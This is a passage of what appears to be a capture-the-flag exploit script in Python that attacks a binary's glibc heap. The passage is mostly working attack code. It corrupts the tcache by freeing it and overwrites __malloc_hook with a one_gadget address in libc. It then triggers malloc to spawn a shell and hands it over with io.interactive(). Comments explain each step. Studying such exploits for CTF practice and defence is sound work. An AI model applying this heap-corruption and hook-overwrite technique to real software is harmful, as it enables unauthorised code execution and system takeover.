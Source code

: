 ```python  
log.info("Added chunks to t-cache")

   # free the t-cache itself  
   # This will overwrite the count in the t-cache with pointers to the main
arena as this chunk is put into the unsorted bin  
   # Now the chances are good that the byte that counts the number of 0x30
chunks in the t-cache is > 3  
   set(5, p64(heap_base + 0x10))

   # Discard one chunk to get to the '__malloc_hook'. We already got one
removed by the malloc that happened when freeing the t-cache  
   set(2, b'finally')  
   # Overwrite '__malloc_hook' with our one_gadget location  
   # We see in gdb that r15 and rdx are NULL, therefore the constraints are
fulfilled  
   set(3, p64(libc.address + 0xe6c81))  # one_gadget

   # -------------------------------- #  
   # --        Pop a shell         -- #  
   # -------------------------------- #

   set(-1, '', False)  # malloc(0x20) calls one_gadget  
except EOFError:  
   pass

io.interactive()  
```